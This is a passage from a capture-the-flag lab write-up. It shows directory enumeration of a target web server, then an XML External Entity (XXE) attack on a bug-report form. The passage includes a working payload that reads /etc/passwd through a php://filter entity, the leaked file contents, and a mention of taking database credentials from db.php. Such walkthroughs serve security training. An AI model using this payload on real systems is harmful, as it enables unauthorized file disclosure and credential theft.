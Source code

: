 ```console
===============================================================
/index.php            (Status: 200) [Size: 25169]
/resources            (Status: 301) [Size: 318] [--> http://10.129.95.166/resources/]
/assets               (Status: 301) [Size: 315] [--> http://10.129.95.166/assets/]   
/portal.php           (Status: 200) [Size: 125]                                      
/css                  (Status: 301) [Size: 312] [--> http://10.129.95.166/css/]      
/db.php               (Status: 200) [Size: 0]                                        
/js                   (Status: 301) [Size: 311] [--> http://10.129.95.166/js/]       
Progress: 36248 / 175330 (20.67%)                                                   ^C
[!] Keyboard interrupt detected, terminating.
                                                                                     
===============================================================
2022/06/21 15:22:41 Finished
===============================================================
```
If we try to visit portal.php, we quickly get sent to log_submit.php.
![The `log_submit.php`{: .filepath} page](bounty_report.png)

We can then try to submit a report on the page. I started Burpsuite and setup the proxy and found that it sends the contents of the form as a base64 encoded and then url encoded XML form. See below:

![The burp request and response](burp_ini.png)
![The decoded data via cyberchef](cyberchef.png)

Since we are sending an XML form it might be vulnerable to an XXE [(XML External Entity)](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity) attack.

 I used the payload below payload to read the `/etc/passwd`{: .filepath} file. Remember to base64 and url encode it before sending it. 
 ```xml
 <?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [<!ENTITY file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd"> ]>
  <bugreport>
  <title>test</title>
  <cwe>test</cwe>
  <cvss>test</cvss>
  <reward>&file;</reward>
  </bugreport>
 ``` 
![the request and response including the passwd file](etc_passwd.png)

I then used this to load the contents of the `/var/www/html/db.php`{: .filepath} file, which includes credentials:

![Contents of the `db.php`{: .filepath} file](db_php.png)

The base64 decoded contents of both files can be found below: 
```console
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
```